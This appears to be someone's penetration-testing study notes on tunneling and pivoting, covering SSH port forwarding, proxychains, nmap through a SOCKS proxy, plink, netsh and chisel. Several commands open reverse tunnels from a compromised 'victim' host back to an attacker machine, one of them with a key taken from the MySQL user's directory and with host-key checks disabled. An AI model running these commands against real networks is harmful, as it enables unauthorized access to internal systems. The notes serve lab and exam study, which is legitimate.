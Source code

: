 # Tunneling

##

## Local Port Forwarding

So when you want to reach a port that is open only on the victim machine, but not from your attack host, you will use local port forwarding.

```
ssh -L 1234:localhost:5432 user@{target_IP}
```



##

## Reverse tunnel to attack host

UserKnownHostsFile=/dev/null and StrictHostKeyChecking=no. The first option prevents ssh from attempting to save the host key by sending the output to /dev/null. The second option will instruct ssh to not prompt us to accept the host key. Both of these options can be set via the -o flag.

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul
l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

\+ generate and use keys (page 779 PWK)

## Reverse dynamic port forwarding

newer versions of ssh support this feature

We will only need one port forwarding option, which is -R 1080. By not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali server. We also need to change the location of the private key

```
ssh -f -N -D 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /
var/lib/mysql/.ssh/id_rsa kali@10.11.0.4
```

### Proxychains

configure proxychains on Kali to use the SOCKS proxy. We can do this by opening etc/proxychains.conf and editing the last line, specifying port 1080.

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 1080
```

{% hint style="info" %}
Network scanning with ProxyChains will be slow so we will start with only the top 20 ports and expand our scope if needed.

You can speed up network scanning through proxychains by modifying the timeout via the tcp\_read\_time\_out and tcp\_connect\_time\_out values in /etc/proxychains.conf. However, don’t set these too low or you will receive incorrect results.
{% endhint %}

SOCKS proxies require a TCP connection to be made and thus a half-open or SYN scan cannot be used with ProxyChains.740 Since SOCKS proxies require a TCP connection, ICMP cannot get through either and we must disable pinging with the -Pn flag.

```
kali@kali:~$ proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20
```

### nmap proxychains scan

```
proxychains nmap 172.16.1.10 -sT -sV -Pn -T5 2>/dev/null

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 22:35 EET
Nmap scan report for static-172-16-1-10.rdsnet.ro (172.16.1.10)
Host is up (0.051s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PLINK.exe

from pwk pdf manual page 610. 20.3 chapter

this looks promising [https://www.pc-freak.net/blog/creating-ssh-tunnel-windows-plink/](https://www.pc-freak.net/blog/creating-ssh-tunnel-windows-plink/)

## NETSH

chapter 20.4 pwk pdf. this is used for port forwarding on Windows. You need to have SYSTEM rights on the windows box.&#x20;

## Chisel

{% embed url="https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683" %}

{% embed url="https://github.com/jpillora/chisel" %}

###

### Chisel local port forwarding

On the attack host

```
chisel server -p 8888 -reverse
```

On the victim(windows)

```
.\chisel.exe client 10.10.14.89:8888 R:1082:localhost:4444
```

On the attack host again to connect to forwarded port

```
nc -nv 127.0.0.1 1082
```

### On attacking box/kali from previous exam

```
chisel  server -p 8000 reverse
```

### On victim from previous exam

```
chisel.exe client 192.168.49.138:8000 R:socks
```

Or as mentioned in the above document:

### On the Attack Machine <a href="#id-94ad" id="id-94ad"></a>

```
chisel server -p 3477 --socks5 --reverse
```



### On the Victim Machine <a href="#id-9a15" id="id-9a15"></a>

```
chisel client 13.37.13.37:3477 R:5000:socks
```

### Proxychains

`/etc/proxychains.conf`

![](https://miro.medium.com/max/700/1\*mhBYMO2hZA0ZM5sCgwebLQ.png)

```
socks5
```
